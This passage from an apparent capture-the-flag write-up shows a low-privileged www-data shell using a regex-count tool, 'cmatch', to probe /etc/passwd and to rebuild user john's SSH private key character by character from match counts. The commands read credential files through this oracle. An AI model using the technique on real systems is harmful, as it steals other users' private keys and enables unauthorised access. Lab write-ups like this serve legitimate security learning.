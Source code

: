     
    
    www-data@fingerprint:/$ cmatch /etc/passwd '(.|\n)'
    Found matches: 1642
    

#### Find SSH Key

The first thing I wanted to look for is john’s private key. It’s there:

    
    
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa a
    Found matches: 19
    

I can confirm it’s got the typical format:

    
    
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----'
    Found matches: 2
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN'
    Found matches: 1
    

The file has 1766 characters:

    
    
    www-data@fingerprint:/dev/shm$ cmatch /home/john/.ssh/id_rsa '(.|\n)'
    Found matches: 1766
    

#### Manual Brute SSH Key

I can start by using `^` to look at the start of a line, and start building a
string from there one character at a time.

I can show the first line is 21 bytes long:

    
    
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{20}'
    Found matches: 1
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{30}'
    Found matches: 0
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{25}'
    Found matches: 0
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{22}'
    Found matches: 0
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}'
    Found matches: 1
    

Then I can add a newline, and keep looking:

    
    
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n'
    Found matches: 1
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.'
    Found matches: 1
    
